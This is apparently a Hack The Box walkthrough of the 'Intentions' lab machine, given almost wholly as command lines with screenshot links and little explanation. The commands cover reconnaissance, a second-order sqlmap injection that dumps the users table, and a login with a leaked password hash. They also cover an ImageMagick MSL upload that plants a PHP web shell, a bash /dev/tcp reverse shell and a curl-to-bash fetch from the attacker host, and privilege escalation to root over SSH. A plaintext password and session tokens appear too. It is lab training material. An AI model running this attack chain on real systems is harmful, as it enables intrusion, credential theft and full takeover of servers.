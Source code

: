 ```
nmap -sS -sC -sV -T5 -Pn 10.10.11.220
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://intentions.htb/FUZZ -fs 162 -e .aspx,.php,.txt,.html,.sh
registration
sqlmap -r req1.txt --batch
sqlmap -r req2b.txt --batch
sqlmap -r req1.txt --second-req=req2.txt --batch --tamper=space2comment
sqlmap -r updateGenresRequest --second-req=fetchFeedRequest --batch --tamper=space2comment --tables
sqlmap -r req1b.txt --second-req=req2b.txt --batch --tamper=space2comment -T users --dump
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/big.txt -e -t 100 -u http://intentions.htb/api/v2/auth/ -b 403,404
http://10.10.11.220/api/v2/auth/login
curl -X POST http://intentions.htb/api/v2/auth/login
curl -X POST http://intentions.htb/api/v1/auth/login
curl -d 'email=steve@intentions.htb&hash=$2y$10$M/g27T1kJcOpYOfPqQlI3.YfdLIwr3EWbzWOLfpoTtjpeMqpp4twa' -X POST http://intentions.htb/api/v2/auth/login
http://10.10.11.220/
http://intentions.htb/api/v2/auth/login | Edited: v2, hash
http://intentions.htb/admin#/
http://intentions.htb/api/v2/admin/image/modify
python3 -m http.server 80
http://intentions.htb/api/v2/admin/image/modify
"path":"http://10.10.14.6/test”
curl 'http://intentions.htb/api/v2/admin/image/modify' -X POST -H 'X-XSRF-TOKEN: eyJpdiI6Ij[SNAP]OTc2ZjcifQ.Y-yF7_2agtJjTqtFeEThuabmwzTvhDCFoq6tHt0l3zc' -F 'path=vid:msl:/tmp/php*' -F 'effect=asd' -F file=@payload.msl
http://intentions.htb/storage/rce.php?c=ls
/bin/bash -i >& /dev/tcp/10.10.14.6/9001 0>&1
nc -nlvp 9001
http://intentions.htb/storage/rce.php?c=curl%2010.10.14.6/shell|bash
ls –la
git log –p
git config --global --add safe.directory /var/www/html/intentions
HOME=/tmp git config --global --add safe.directory /var/www/html/intentions
HOME=/tmp git log –p
ssh greg@intentions.htb | Gr3g1sTh3B3stDev3l0per!1998!
/opt/scanner/scanner -d /home/legal/uploads -h /home/greg/dmca_hashes.test
getcap /opt/scanner/scanner
python3 extract.py
ssh –i root_key6 root@10.10.11.220
```


```
nmap -sS -sC -sV -T5 -Pn 10.10.11.220
```
![image](https://github.com/regarmulia/HTB/assets/33616880/528dff0c-5310-4215-a2d5-7be40b47e7bd)

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://intentions.htb/FUZZ -fs 162 -e .aspx,.php,.txt,.html,.sh
```
![image](https://github.com/regarmulia/HTB/assets/33616880/7e5bb805-89c5-4842-a466-280fab8a28f3)

```
registration
```
![image](https://github.com/regarmulia/HTB/assets/33616880/3a12ee51-5c45-49b3-8cff-a1730160b60d)


```
sqlmap -r req1.txt --batch
sqlmap -r req2b.txt --batch
```
![image](https://github.com/regarmulia/HTB/assets/33616880/a41968e9-a125-4022-9554-7a2015c569a3)


![image](https://github.com/regarmulia/HTB/assets/33616880/a8183c38-7b4f-423c-8661-ca351f473565)


![image](https://github.com/regarmulia/HTB/assets/33616880/318256aa-4f54-4605-b7d5-2b4add64a990)



```
sqlmap -r req1.txt --second-req=req2.txt --batch --tamper=space2comment
```
![image](https://github.com/regarmulia/HTB/assets/33616880/1a7c8a8c-c45e-4474-86ac-090c34b7db0e)


![image](https://github.com/regarmulia/HTB/assets/33616880/806ea88f-c009-46ad-95b3-92d8e9cd2c79)


```
sqlmap -r updateGenresRequest --second-req=fetchFeedRequest --batch --tamper=space2comment --tables
```
![image](https://github.com/regarmulia/HTB/assets/33616880/230307ac-31be-47bc-9385-19d400791dd8)


```
sqlmap -r req1b.txt --second-req=req2b.txt --batch --tamper=space2comment -T users --dump
```
![image](https://github.com/regarmulia/HTB/assets/33616880/0fa022ca-bc8b-4cfb-9d89-05da8947f30d)


```
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/big.txt -e -t 100 -u http://intentions.htb/api/v2/auth/ -b 403,404
```


```
http://10.10.11.220/api/v2/auth/login
curl -X POST http://intentions.htb/api/v2/auth/login
curl -X POST http://intentions.htb/api/v1/auth/login
```
![image](https://github.com/regarmulia/HTB/assets/33616880/94443e9d-fda1-424e-aa75-2bc33dbccf6e)


![image](https://github.com/regarmulia/HTB/assets/33616880/91adcde2-ab47-4d10-8890-016e7d0e6534)


```
curl -d 'email=steve@intentions.htb&hash=$2y$10$M/g27T1kJcOpYOfPqQlI3.YfdLIwr3EWbzWOLfpoTtjpeMqpp4twa' -X POST http://intentions.htb/api/v2/auth/login
```
![image](https://github.com/user-attachments/assets/c1428800-193b-4f62-98b3-420cba7a5f4e)

![image](https://github.com/regarmulia/HTB/assets/33616880/a740f795-07cd-49c5-b0fa-4cba7ec0a070)


![image](https://github.com/regarmulia/HTB/assets/33616880/50514396-8dea-43e8-8654-ee351d81958b)


```
http://10.10.11.220/
http://intentions.htb/api/v2/auth/login
Edited: v2, hash
```
![image](https://github.com/regarmulia/HTB/assets/33616880/20c9ec85-1a6a-4f92-b883-011609a50140)


![image](https://github.com/regarmulia/HTB/assets/33616880/9bde9358-3c79-4186-9cbc-63ebb13ec344)


```
http://intentions.htb/admin#/
http://intentions.htb/api/v2/admin/image/modify
```
![image](https://github.com/regarmulia/HTB/assets/33616880/ce76950b-7767-47dd-a328-7d7953ee15f9)


![image](https://github.com/regarmulia/HTB/assets/33616880/0b6871de-0e54-44c1-9d14-27943f81f53b)


![image](https://github.com/regarmulia/HTB/assets/33616880/788c8136-6a8f-4715-95b9-e558c5b1a819)


```
python3 -m http.server 80
http://intentions.htb/api/v2/admin/image/modify
"path":"http://10.10.14.6/test”
```
![image](https://github.com/regarmulia/HTB/assets/33616880/7446d685-b13d-437d-b177-a34ce4d105a0)


![image](https://github.com/regarmulia/HTB/assets/33616880/36a9081f-c32a-400f-b322-618f52ac3216)


```
curl 'http://intentions.htb/api/v2/admin/image/modify' -X POST -H 'X-XSRF-TOKEN: eyJpdiI6IjYxcmJueWtFTTNib0FFOXlnUTdFL1E9PSIsInZhbHVlIjoibGRsUUgzWmhaSVpjaDNwcEJ4QXBFQ29XRnlSUHhwdE4zMXdsN2ZUbTFPREt2dmUyRHdGRzlhWS94bGFEU0xZTk9TNjlDVENIUnlYbDEwTzFWZzcxWk40dUZ0VGJLNmtBQmhTVEVnMkFlSUl2M2thbGU5eEZDdTh2NkNvcTV5SEciLCJtYWMiOiI1OWIwZDFkOTc3OWJjZWZhNDkzYTNhMTYyMjIwNGZmZmJjY2NkZGI5ODdlODVlY2U2OTU5ZGU0MmFiNTE2NTM4IiwidGFnIjoiIn0=' -H 'Cookie: XSRF-TOKEN=eyJpdiI6IjYxcmJueWtFTTNib0FFOXlnUTdFL1E9PSIsInZhbHVlIjoibGRsUUgzWmhaSVpjaDNwcEJ4QXBFQ29XRnlSUHhwdE4zMXdsN2ZUbTFPREt2dmUyRHdGRzlhWS94bGFEU0xZTk9TNjlDVENIUnlYbDEwTzFWZzcxWk40dUZ0VGJLNmtBQmhTVEVnMkFlSUl2M2thbGU5eEZDdTh2NkNvcTV5SEciLCJtYWMiOiI1OWIwZDFkOTc3OWJjZWZhNDkzYTNhMTYyMjIwNGZmZmJjY2NkZGI5ODdlODVlY2U2OTU5ZGU0MmFiNTE2NTM4IiwidGFnIjoiIn0%3D; intentions_session=eyJpdiI6ImVySlh1ZmlzOC9vRXdPaTRHK1A1RHc9PSIsInZhbHVlIjoicitCaW9NTDZNdnBzeVduN0dHek1Gd2gzMHV4ZmxFem9iOEZqUnJRUkg0YWhrdHIxNC9reU5pc3Z3LzhpeUNUdm5HMWhjSFZBZGowTnBvVVNzMnZPbTJGcHRIT205OUxIK2M4Z0RTeTFrVWpnQXlERU1ZOHlEUW9xbWZBV1pKZFQiLCJtYWMiOiJhMzg5NTdhOTQ0NjYwMjNhMWYyNThhYmM2NjljZmNhYWY0NTYzMWMwZGRiY2ZlZjQwYjAyN2Q3NTFmNWMwYWVhIiwidGFnIjoiIn0%3D; token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJodHRwOi8vaW50ZW50aW9ucy5odGIvYXBpL3YyL2F1dGgvbG9naW4iLCJpYXQiOjE3MTYzNjE1MTEsImV4cCI6MTcxNjM4MzExMSwibmJmIjoxNzE2MzYxNTExLCJqdGkiOiJZbGVJc0NkWnAzZXc0NWc2Iiwic3ViIjoiMSIsInBydiI6IjIzYmQ1Yzg5NDlmNjAwYWRiMzllNzAxYzQwMDg3MmRiN2E1OTc2ZjcifQ.Y-yF7_2agtJjTqtFeEThuabmwzTvhDCFoq6tHt0l3zc' -F 'path=vid:msl:/tmp/php*' -F 'effect=asd' -F file=@payload.msl
http://intentions.htb/storage/rce.php?c=ls
```
![image](https://github.com/regarmulia/HTB/assets/33616880/c9c6203b-fe5d-4877-ac23-646845ae13ff)


![image](https://github.com/regarmulia/HTB/assets/33616880/d1878460-5ead-4c80-b142-42758ed435ac)


```
/bin/bash -i >& /dev/tcp/10.10.14.6/9001 0>&1
nc -nlvp 9001
http://intentions.htb/storage/rce.php?c=curl%2010.10.14.6/shell|bash
```
![image](https://github.com/regarmulia/HTB/assets/33616880/a087ac9e-afc2-423c-ac18-cb36c5d1f97c)

![image](https://github.com/regarmulia/HTB/assets/33616880/cd0cd12f-2df6-49c2-a38e-d4c5ceb77159)

![image](https://github.com/regarmulia/HTB/assets/33616880/c633d585-805d-4e35-8053-fd525fe104e3)


```
ls –la
git log –p
git config --global --add safe.directory /var/www/html/intentions
```
![image](https://github.com/regarmulia/HTB/assets/33616880/f7596d08-39a1-4d35-b979-c91fb211ed4d)


```
HOME=/tmp git config --global --add safe.directory /var/www/html/intentions
HOME=/tmp git log –p
```
![image](https://github.com/regarmulia/HTB/assets/33616880/0c4c5df4-014a-4c78-9f4a-d08ae2d9c0c2)


```
ssh greg@intentions.htb
Gr3g1sTh3B3stDev3l0per!1998!
```
![image](https://github.com/regarmulia/HTB/assets/33616880/95449770-cf05-4dbf-8dd2-634e8a9027a1)


```
/opt/scanner/scanner -d /home/legal/uploads -h /home/greg/dmca_hashes.test
```
![image](https://github.com/regarmulia/HTB/assets/33616880/c38c8eac-7ea4-4d58-ada5-db7a90e2af7a)

![image](https://github.com/regarmulia/HTB/assets/33616880/722f714b-d18a-4103-8847-5969f95d9ce1)


```
getcap /opt/scanner/scanner
python3 extract.py
```
![image](https://github.com/regarmulia/HTB/assets/33616880/aa4e9ed7-dffe-4663-a2a1-7d290941534d)


```
ssh –i root_key6 root@10.10.11.220
```
![image](https://github.com/regarmulia/HTB/assets/33616880/8a989765-878f-4e62-b20b-f4256e9ef0cd)
